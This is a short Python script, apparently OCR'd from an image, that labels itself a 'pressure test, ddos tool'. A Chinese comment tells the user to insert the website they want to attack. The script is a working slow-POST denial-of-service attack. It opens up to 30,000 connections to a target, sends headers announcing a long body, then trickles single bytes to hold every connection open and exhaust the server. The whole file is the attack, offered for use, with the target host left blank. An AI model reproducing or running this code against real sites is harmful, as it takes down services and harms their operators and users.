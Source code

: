 #!/usr/bin/env python// .ly https://sinister
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=30000
#改写下面的网址为你想攻击的网站！！！！！！！！！
PORT=80
HOST="www..com"
PAGE="/recitewords/api"
#---------------------------
buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]
def conn_thread():
    global socks
    while len(socks)<MAX_CONN:
        s=socket.socket (socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode('utf-8'))
            #print ("[+] Send buf OK!,conn=%d\n"%len(socks))
            socks.append(s)
        except Exception as ex:
            print ("[-] Could not connect to server or send error:%s"%ex)
            time.sleep(2)
#end def
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode('utf-8'))
                #print ("[+] send OK! %s"%s)
            except Exception as ex:
                print ("[-] send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
                time.sleep(1)
#end def
conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
while(True):
    print("存活连接数：%d "%len(socks))
    time.sleep(1)
